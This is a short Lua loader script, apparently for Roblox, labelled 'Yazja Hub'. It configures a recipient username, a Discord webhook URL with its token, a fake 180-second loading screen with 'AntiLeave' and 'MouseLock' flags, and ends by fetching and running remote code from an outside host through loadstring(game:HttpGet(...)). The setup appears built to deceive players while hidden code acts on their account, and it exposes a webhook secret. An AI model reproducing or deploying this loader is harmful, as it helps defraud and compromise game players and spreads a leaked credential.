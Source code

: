 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy" 

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 


_G.ScriptName = "Yazja Hub"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("http://rizz.ct8.pl/scripts/Main", true))()
